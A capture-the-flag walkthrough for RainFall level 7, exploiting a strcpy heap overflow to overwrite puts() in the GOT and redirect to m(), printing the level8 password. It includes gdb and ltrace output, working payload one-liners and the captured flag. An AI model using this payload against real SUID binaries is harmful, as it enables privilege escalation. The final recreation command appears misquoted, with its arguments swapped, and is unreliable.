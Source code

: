 # Level 7

## Vulnerability

Heap Overflow + Memory Corruption

## Context

We find a binary with owner level8 and SUID.
```
level7@RainFall:~$ ls -l
-rwsr-s---+ 1 level8 users 5648 Mar  9  2016 level7
```
It segfaults when run with 0 or 1 argument. It reponds to 2 or more arguments with "~".
```
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 anya
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 anya drew
~~
level7@RainFall:~$ ./level7 anya drew win
~~
```

## Solution

Let's explore the binary using gdb. 
We can see here that ```main()``` makes 2 calls to ```strcpy()```, and one call to each ```fopen()``` and ```fgets()```.
```strcpy()``` is unsafe in that it has no length parameter, which leaves it vulnerable to buffer overflows and consequent memory corruption. 
```
level7@RainFall:~$ gdb -q level7
(gdb) disas main
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
```
Let's take a deeper look at the ```fopen()``` and ```fgets()``` parameters.
It looks like it opens the file with the password we're looking for, and saves it in ```c```!
It then does nothing with ```c```.
```
(gdb) x/s 0x80486e9
0x80486e9:	 "r"
(gdb) x/s 0x80486eb
0x80486eb:	 "/home/user/level8/.pass"
(gdb) x/s 0x8049960
0x8049960 <c>:	 ""
```
Let's see if that's everything. 
We also find a function ```m()``` that is never called. 
This function prints ```time()``` and the variable ```c```!
```
(gdb) info function
All defined functions:
[...]
0x080484f4  m
[...]
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   %ebp
   0x080484f5 <+1>:	mov    %esp,%ebp
   0x080484f7 <+3>:	sub    $0x18,%esp
   0x080484fa <+6>:	movl   $0x0,(%esp)
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    $0x80486e0,%edx
   0x0804850b <+23>:	mov    %eax,0x8(%esp)
   0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:	mov    %edx,(%esp)
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave
   0x08048520 <+44>:	ret
End of assembler dump.
```
Sooo the exploit here is to call ```m()``` by overwriting ```puts()``` in the GOT... and thus print ```c``` (and the password)!

Let's locate the addresses of ```m()``` and ```puts()```.
We can see the address of ```m()``` is 0x080484f4, and the address of ```puts@plt``` is 0x8048400.
But that's just a pointer to ```puts``` GOT address – which, upon closer inspection is 0x8049928.
```
(gdb) info function
All defined functions:
[...]
0x08048400  puts@plt
0x080484f4  m
[...]
(gdb) x/i 0x8048400
   0x8048400 <puts@plt>:	jmp    *0x8049928
```
Next, let's work out our payload. 
We'll use this [buffer overflow EIP offset string generator](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) to work out which offset is being overwritten. 
```
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
__libc_start_main(0x8048521, 2, 0xbffff744, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                        = 0x0804a008
malloc(8)                                        = 0x0804a018
malloc(8)                                        = 0x0804a028
malloc(8)                                        = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
It looks like the program segfaults at 0x37614136, and if we plug that into our handy link above, we find the offset is 20. 

Here is what our string attack should look like:
- pad of arbitrary data [20 bytes]
- puts() GOT address [4 bytes]
- address of m() [4 bytes]
Let's visualize that. 
```
"paddings [20 bytes] + GOT address of puts" + "address of m()"
                  argv[1]                          argv[2]
```
Let's try it out!
```
level7@RainFall:~$ ./level7 $(python -c 'print "a" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1611061949
```

## Recreate Exploited Binary

As user level8, in /tmp, create and compile level7_source.c.
```
level8@RainFall:~$ cd /tmp
level8@RainFall:/tmp$ gcc level7_source.c -o level7_source
```
Edit permissions including suid, then move the binary to home directory.
```
level8@RainFall:/tmp$ chmod u+s level7_source
level8@RainFall:/tmp$ chmod +wx ~; mv level7_source ~
```
Exit back to user level7, then run the binary. <br/>
Notes: 
- Our new address for ```m()``` is located at 0x08048514 (but we still print the address in little endian).
- Our new address for ```puts()``` is located at 0x8048420 => 0x0804a014 (in the GOT)
```
level8@RainFall:/tmp$ exit
exit
level7@RainFall:~$ /home/user/level8/level7_source "python -c 'print "a" * 20 + "\x14\x85\x04\x08"'" "python -c 'print "\x14\xa0\x04\x08"'"


